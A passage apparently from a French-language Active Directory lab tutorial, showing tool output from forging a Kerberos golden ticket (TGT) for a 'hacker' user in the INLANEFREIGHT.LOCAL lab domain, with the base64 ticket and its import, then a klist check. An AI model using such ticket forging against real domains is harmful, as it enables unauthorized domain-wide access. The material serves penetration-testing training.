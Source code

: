 ```
[*] Service        : krbtgt
[*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'

[*] AuthTime       : 3/29/2022 10:06:41 AM
[*] StartTime      : 3/29/2022 10:06:41 AM
[*] EndTime        : 3/29/2022 8:06:41 PM
[*] RenewTill      : 4/5/2022 10:06:41 AM

[*] base64(ticket.kirbi):
      doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG
      UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M
      T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQc0u5onpWKAP0Hw0KJuEOAFp8OgfBXlkwH3sXu5BhH
      T3zO/Ykw2Hkq2wsoODrBj0VfvxDNNpvysToaQdjHIqIqVQ9kXfNHM7bsQezS7L1KSx++2iX94uRrwa/S
      VfgHhAuxKPlIi2phwjkxYETluKl26AUo2+WwxDXmXwGJ6LLWN1W4YGScgXAX+Kgs9xrAqJMabsAQqDfy
      k7+0EH9SbmdQYqvAPrBqYEnt0mIPM9cakei5ZS1qfUDWjUN4mxsqINm7qNQcZHWN8kFSfAbqyD/OZIMc
      g78hZ8IYL+Y4LPEpiQzM8JsXqUdQtiJXM3Eig6RulSxCo9rc5YUWTaHx/i3PfWqP+dNREtldE2sgIUQm
      9f3cO1aOCt517Mmo7lICBFXUTQJvfGFtYdc01fWLoN45AtdpJro81GwihIFMcp/vmPBlqQGxAtRKzgzY
      acuk8YYogiP6815+x4vSZEL2JOJyLXSW0OPhguYSqAIEQshOkBm2p2jahQWYvCPPDd/EFM7S3NdMnJOz
      X3P7ObzVTAPQ/o9lSaXlopQH6L46z6PTcC/4GwaRbqVnm1RU0O3VpVr5bgaR+Nas5VYGBYIHOw3Qx5YT
      3dtLvCxNa3cEgllr9N0BjCl1iQGWyFo72JYI9JLV0VAjnyRxFqHztiSctDExnwqWiyDaGET31PRdEz+H
      WlAi4Y56GaDPrSZFS1RHofKqehMQD6gNrIxWPHdS9aiMAnhQth8GKbLqimcVrCUG+eghE+CN999gHNMG
      Be1Vnz8Oc3DIM9FNLFVZiqJrAvsq2paakZnjf5HXOZ6EdqWkwiWpbGXv4qyuZ8jnUyHxavOOPDAHdVeo
      /RIfLx12GlLzN5y7132Rj4iZlkVgAyB6+PIpjuDLDSq6UJnHRkYlJ/3l5j0KxgjdZbwoFbC7p76IPC3B
      aY97mXatvMfrrc/Aw5JaIFSaOYQ8M/frCG738e90IK/2eTFZD9/kKXDgmwMowBEmT3IWj9lgOixNcNV/
      OPbuqR9QiT4psvzLGmd0jxu4JSm8Usw5iBiIuW/pwcHKFgL1hCBEtUkaWH24fuJuAIdei0r9DolImqC3
      sERVQ5VSc7u4oaAIyv7Acq+UrPMwnrkDrB6C7WBXiuoBAzPQULPTWih6LyAwenrpd0sOEOiPvh8NlvIH
      eOhKwWOY6GVpVWEShRLDl9/XLxdnRfnNZgn2SvHOAJfYbRgRHMWAfzA+2+xps6WS/NNf1vZtUV/KRLlW
      sL5v91jmzGiZQcENkLeozZ7kIsY/zadFqVnrnQqsd97qcLYktZ4yOYpxH43JYS2e+cXZ+NXLKxex37HQ
      F5aNP7EITdjQds0lbyb9K/iUY27iyw7dRVLz3y5Dic4S4+cvJBSz6Y1zJHpLkDfYVQbBUCfUps8ImJij
      Hf+jggEhMIIBHaADAgEAooIBFASCARB9ggEMMIIBCKCCAQQwggEAMIH9oBswGaADAgEXoRIEEBrCyB2T
      JTKolmppTTXOXQShHxsdTE9HSVNUSUNTLklOTEFORUZSRUlHSFQuTE9DQUyiEzARoAMCAQGhCjAIGwZo
      YWNrZXKjBwMFAEDgAACkERgPMjAyMjAzMjkxNzA2NDFapREYDzIwMjIwMzI5MTcwNjQxWqYRGA8yMDIy
      MDMzMDAzMDY0MVqnERgPMjAyMjA0MDUxNzA2NDFaqB8bHUxPR0lTVElDUy5JTkxBTkVGUkVJR0hULkxP
      Q0FMqTIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5MT0NBTA==

[+] Ticket successfully imported!

```

Encore une fois, on peut vérifier que le ticket est en mémoire grâce à la `klist`commande.

#### Confirmer que le ticket est en mémoire à l'aide de klist
